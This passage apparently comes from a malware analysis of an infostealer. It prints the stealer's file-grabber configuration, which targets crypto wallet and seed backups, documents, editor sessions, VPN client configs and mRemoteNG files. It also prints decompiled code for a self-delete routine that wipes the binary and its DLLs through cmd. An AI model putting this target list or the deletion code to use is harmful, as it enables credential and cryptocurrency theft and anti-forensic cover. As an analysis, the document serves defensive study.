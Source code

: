 Filegrabber Settings :

```
RECENT|%RECENT%\|*.txt,*.docx,*.xlsx|5|1|1|RECENT|%RECENT%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DESK|%DESKTOP%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DOCS|%DOCUMENTS%\|*exodus*.png,*exodus*.pdf,*wallet*.png,*wallet*.pdf,*backup*.png,*backup*.pdf,*recover*.png,*recover*.pdf,*metamask*.*,*UTC--*.*|1500|1|1|DOCS|%DOCUMENTS%\|*.txt,*.docx,*.xlsx|8|1|1|DESK|%DESKTOP%\|*.txt,*.docx,*.xlsx|8|1|1|NOTEPAD|%APPDATA%\Notepad++|*.xml|10|1|1|NOTEPAD|%APPDATA%\Notepad++\backup\|*.*|10|1|1|SUBLIME|%APPDATA%\Sublime Text 3\Local\Session.sublime_session\|*.sublime_*|10|1|1|VPN_CiscoVPN|%PROGRAMFILES%\\..\\ProgramData\\Cisco\Cisco AnyConnect Secure Mobility Client\Profile\|*.xml|999|1|0|VPN_Fortinet|%PROGRAMFILES%\Fortinet\FortiClient\|*.conf,*.xml|999|1|0|VPN_SonicWall|%APPDATA%\SonicWall\Global VPN Client\|*.rcf|999|1|0|VPN_F5|%PROGRAMFILES%\F5 VPN\|*.xml,*.ini|999|1|0|VPN_F5|%PROGRAMFILES_86%\F5 VPN\|*.xml,*.ini|999|1|0|VPN_Pulse|%PROGRAMFILES%\\..\\ProgramData\\Pulse Secure\VPN Client\config\|*.xml,*.conf|999|1|0|VPN_CheckPoint|%PROGRAMFILES_86%\CheckPoint\Endpoint Connect\|trac.config|999|1|0|VPN_CheckPoint|%APPDATA%\CheckPoint\Endpoint Security VPN\|*.xml,*.ini|999|1|0|VPN_OpenVPN|%PROGRAMFILES%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|VPN_OpenVPN|%PROGRAMFILES_86%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|VPN_OpenVPN|%USERPROFILE%\OpenVPN\config\|*.ovpn, *.conf|999|1|0|RemoteNG|%APPDATA%\mRemoteNG\|*.xml|999|1|0|
```

# Self delete

Deletes itself after execution via cmd

```cpp
void __noreturn mlw_self_delete()
{
  LPCSTR *v0; // eax
  LPCSTR *v1; // eax
  int v2[3]; // [esp+0h] [ebp-44Ch] BYREF
  int v3[3]; // [esp+Ch] [ebp-440h] BYREF
  void *v4[3]; // [esp+18h] [ebp-434h] BYREF
  CHAR Filename[1004]; // [esp+24h] [ebp-428h] BYREF
  SHELLEXECUTEINFOA pExecInfo; // [esp+410h] [ebp-3Ch] BYREF

  sub_4113E0(Filename, 0x3E8u);
  sub_4113E0(&pExecInfo, 0x3Cu);
  GetModuleFileNameA(0, Filename, 0x104u);
  lstcpy((LPSTR *)v4, (CHAR *)sSelfDelete);
  v0 = (LPCSTR *)lstrcat((int)v4, (int)v3, Filename);
  lstrcpy((int *)v4, v0);
  get_str_from_this(v3);
  v1 = (LPCSTR *)lstrcat((int)v4, (int)v2, sSelfDelete_0);// /c timeout /t 5 & del /f /q "
                                                // " & del "C:\ProgramData\*.dll"" & exit
  lstrcpy((int *)v4, v1);
  get_str_from_this(v2);
  pExecInfo.cbSize = 60;
  pExecInfo.fMask = 0;
  pExecInfo.hwnd = 0;
  pExecInfo.lpVerb = (LPCSTR)sOpen;
  pExecInfo.lpFile = (LPCSTR)sCmdExe;
  pExecInfo.lpParameters = (LPCSTR)get_str_from_this_0(v4);
  memset(&pExecInfo.lpDirectory, 0, 12);
  ShellExecuteExA(&pExecInfo);
  sub_4113E0(&pExecInfo, 0x3Cu);
  sub_4113E0(Filename, 0x3E8u);
  sub_4132F0((int *)v4);
  ExitProcess(0);
}
```
